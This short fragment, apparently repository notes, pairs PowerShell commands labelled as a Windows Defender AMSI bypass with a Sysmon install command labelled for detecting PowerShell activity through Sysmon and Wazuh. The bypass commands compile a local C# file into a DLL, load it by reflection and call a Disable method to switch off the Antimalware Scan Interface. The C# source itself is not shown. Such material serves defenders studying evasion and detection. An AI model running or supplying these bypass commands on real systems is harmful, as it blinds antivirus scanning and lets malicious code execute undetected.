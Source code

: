 
#bypass defender AV AMSI
Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\Source.cs")) -OutputAssembly "Source.dll"
[Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\\Source.dll"))
[BP.AMS]::Disable()
#detect powershell using sysmon and wazuh
Sysmon64.exe -accepteula -i sysconfig.xml
